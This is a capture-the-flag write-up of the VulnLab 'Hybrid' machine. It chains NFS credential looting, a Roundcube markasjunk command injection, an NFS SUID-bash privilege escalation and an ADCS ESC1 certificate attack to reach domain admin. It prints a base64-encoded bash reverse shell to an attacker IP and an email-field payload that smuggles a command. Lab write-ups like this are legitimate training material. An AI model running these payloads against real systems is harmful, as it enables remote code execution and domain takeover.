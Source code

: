 ```yaml
---
title: Hybrid
date: 2024-06-01 09:45:47 +07:00
modified: 2024-06-01 09:45:47 +07:00
tags: [ Hybrid, VulnLab, chain, ADCS, certipy, NFS, roundcube, SUID, no-root-squash, Writeup]
description: Hybrid is an &quot;easy&quot; difficulty machine, Where exploited a Roundcube vulnerability and leveraged NFS, SUID misconfiguration, and certificate services to escalate privileges and compromise the domain.
image: https://photos.squarezero.dev/file/abir-images/Hybrid/logo.png
---
```



![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)



<img src="https://photos.squarezero.dev/file/abir-images/Hybrid/logo.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Hybrid</font>

​		13<sup>th</sup> May 2024

​		Machine Author(s): [XCT](https://app.hackthebox.com/users/13569)

​		

### Description:

Hybrid is an &quot;easy&quot; difficulty machine, Where exploited a Roundcube vulnerability and leveraged NFS, SUID misconfiguration, and certificate services to escalate privileges and compromise the domain.

### Difficulty:

`Easy`


# Enumeration

I start with 2 IP addresses and nmap shows us the open ports.

```bash
PORT      STATE    SERVICE      
22/tcp    open     ssh
25/tcp    open     smtp
80/tcp    open     http
110/tcp   open     pop3
111/tcp   open     rpcbind      
143/tcp   open     imap
587/tcp   open     submission   
993/tcp   open     imaps        
995/tcp   open     pop3s        
1102/tcp  filtered adobeserver-1
2049/tcp  open     nfs
3024/tcp  filtered nds_sso
```

```bash
PORT      STATE SERVICE
53/tcp    open  domain
135/tcp   open  msrpc 
139/tcp   open  netbios-ssn     
445/tcp   open  microsoft-ds    
464/tcp   open  kpasswd5        
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
```

### Mail01.hybrid.vl

The NFS server is running on the mail server.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/01.png)

Mount NFS drive to check out important files.

`mkdir target-NFS`

`sudo mount -t nfs 10.10.209.54:/ ./target-NFS -o nolock`

![](https://photos.squarezero.dev/file/abir-images/Hybrid/1.png)

I found credentials inside the tar file.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/2.png)

Inside I find 2 credentials

```bash
admin@hybrid.vl:{plain}Duc<snip>   
peter.turner@hybrid.vl:{plain}Pet<snip>
```

Login to the mail server using Admin credentials

![](https://photos.squarezero.dev/file/abir-images/Hybrid/3.png)

The version of Roundcube is 1.6.1 and after some research, I found out it's vulnerable to code execution via Markasjunk plugin.

[SSD Advisory -  Roundcube markasjunk RCE - SSD Secure Disclosure](https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/)

![](https://photos.squarezero.dev/file/abir-images/Hybrid/4.png)



I need to bypass the filter to have code execution. One easy way to do it is to encode the reverse shell into base64 decode it and run it with bash. I can try this concept in our local machine first.

`echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44LjIuMTEwLzEyMzQgMD4mMSc= | base64 -d | bash`

![](https://photos.squarezero.dev/file/abir-images/Hybrid/5.png)

![](https://photos.squarezero.dev/file/abir-images/Hybrid/6.png)



Under settings, I can change the email into our payload.

`admin%26echo${IFS}YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC44LjIuMTEwLzEyMzQgMD4mMQoK|base64${IFS}-d|bash%26%40hybrid.vl`



![](https://photos.squarezero.dev/file/abir-images/Hybrid/7.png)

Intercept the request and url-encode the payload.

Note: Char Limit of 128 Also if the base64 string has ‘+’ it needs to be url-encoded.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/8.png)

Send an email to Peter.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/9.png)

Mark it as junk.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/10.png)

And I got a call back to my machine.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/11.png)

### www-date to Peter

I looked for a bit and couldn't find anything interesting. But I have both read-write options on the NFS drive.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/12.png)

First, I need to check Peter's UID and then I can create a user in our local attacker machine with the same UID as Peter.

```bash
www-data@mail01:~/roundcube$ id peter.turner@hybrid.vl
id peter.turner@hybrid.vl
uid=902601108(peter.turner@hybrid.vl) gid=902600513(domain users@hybrid.vl) groups=902600513(domain users@hybrid.vl),902601104(hybridusers@hybrid.vl)
```

Now using this UID I created a user in my machine.

```bash
sudo adduser nfs_user     
sudo sed -i -e 's/1002/902601108/g' /etc/passwd
```

Next from www-data user, I transfer the bash file to the NFS drive and then move then using our new user I change the SUID of the bash and put it back to the NFS drive.

```bash
cp bash /tmp/        
share su nfs_user 
/target-NFS/opt/share$ cp /tmp/bash .
/target-NFS/opt/share$ chmod +xs bash
```

![](https://photos.squarezero.dev/file/abir-images/Hybrid/13.png)

Now I can run commands as Peter.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/14.png)

`/opt/share/bash -p`

![](https://photos.squarezero.dev/file/abir-images/Hybrid/15.png)

### Peter to Root

Inside Peter's home folder, I found a Keepass file and after transferring the file to my machine, I can log in using the password I found in the NFS drive previously.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/16.png)



With the new password, I can ssh into the machine as Peter And as Peter can run anything with sudo I can just use `sudo su` to log in as root.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/17.png)

### DC01.hybrid.vl

Peter's credentials are valid in the domain.

![](https://photos.squarezero.dev/file/abir-images/Hybrid/18.png)

After running Bloodhound didn't find anything interesting.

`bloodhound-python -u 'peter.turner' -p 'b0cwR+G4Dzl_rw' -ns 10.10.246.165 -d hybrid.vl -c all --auth-method auto --zip`

![](https://photos.squarezero.dev/file/abir-images/Hybrid/19.png)

Next, I looked for certificate vulnerability using Certipy and it's vulnerable to ESC1

`certipy find -u 'peter.turner' -p 'b0cwR+G4Dzl_rw' -dc-ip 10.10.134.197 -enabled -vulnerable -stdout`

![](https://photos.squarezero.dev/file/abir-images/Hybrid/20.png)

As only domain joined computer can request I got the machine hash of the mail server.

https://github.com/sosdave/KeyTabExtract

**`/etc/krb5/krb5.`**

![](https://photos.squarezero.dev/file/abir-images/Hybrid/21.png)

Now I can request pfx with the right length of RSA

```bash
certipy req -u 'mail01$'@hybrid.vl -hashes '0f916c5246fdbc7ba95dcef4126d57bd' -dc-ip 10.10.246.165 -ca hybrid-DC01-CA -template HybridComputers -upn ADMINISTRATOR@HYBRID.VL -key-size 4600
```

![](https://photos.squarezero.dev/file/abir-images/Hybrid/22.png)

![](https://photos.squarezero.dev/file/abir-images/Hybrid/23.png)

60701e8543c9f6db1a2af3217386d3dc

Using the PFX I can request for administrator hash and then log in to get the final flag. 

![](https://photos.squarezero.dev/file/abir-images/Hybrid/24.png)

![](https://photos.squarezero.dev/file/abir-images/Hybrid/25.png)

### Bonus.

I can also log in using the ticket.

`KRB5CCNAME=administrator.ccache  psexec.py -k -no-pass dc01.hybrid.vl`

![](https://photos.squarezero.dev/file/abir-images/Hybrid/26.png)
